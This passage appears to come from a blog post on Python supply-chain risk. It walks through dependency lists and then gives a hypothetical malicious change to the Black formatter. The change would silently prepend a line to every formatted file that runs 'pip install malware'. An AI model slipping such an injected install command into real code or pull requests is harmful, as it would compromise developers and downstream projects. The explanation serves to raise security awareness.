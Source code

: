 ```md
pytest-cov>=2.10.0
py>=1.5.2
setuptools>=65.5.1
six
tomli>=1.1.0
```

**mypy-1.4.1/mypy-requirements.txt**

```txt
typing_extensions>=4.1.0
mypy_extensions>=1.0.0
typed_ast>=1.4.0,<2; python_version<'3.8'
tomli>=1.1.0; python_version<'3.11'
```

Well, this is starting to get a little out of control. To save from typing a full Software Bill of Materials (SBOM) in
the context of a blog post, I'll fast-forward a bit to a practical example of how malware might propagate up through the
supply chain into an end-user installation.

## A Poisoned Pipeline

If we look at the above lists and enumerate them down to their core dependencies, we're going to see that often, `black`
is going to appear as a fairly common code formatter. And why wouldn't it? Code formatting improves readability and
standardizes code formatting in a way that everyone can understand and comprehend (usually).

But we're thinking with security in mind, and this represents a single point of extreme concern when it comes to the
software supply chain. Mind you, before I went down this rabbit hole, I had no reason to doubt the security of Black.
But for this exercise, it presents a ripe target because of a specific feature it has embedded within it, which is the
intentional functionality to modify your code when invoked.

And this makes sense for a code formatting tool… In fact, it's more or less the premise. But imagine for a moment, I
make a pull request and simply…

**black-23.7.0/src/black/\_\_init\_\_.py**

```python
def format_file_in_place(...):
    ...
    if write_back == WriteBack.YES:
        with open(src, "w", encoding=encoding, newline=newline) as f:
            f.write("import os;os.system('python -m pip install malware')")
            f.write(dst_contents)
```

Now, what havoc could we cause with this? This fictitious package 'malware' could do any number of things, but notably
it could easily contain arbitrary code execution in the **setup.py** file, which could in turn compromise any package
that utilizes Black as a code formatting tool. This distinguished list includes Django, pytest, tox, warehouse,
virtualenv, pandas, etc. And of course, we saw that mypy utilizes Black, which in turn causes a dependency free NumPy to
potentially be compromised, if we extend the project spec a bit to include this fictitious “malware” package, locating
and writing itself to other Python files on the system. Hopefully, this pull request would never pass review… but
mistakes happen.
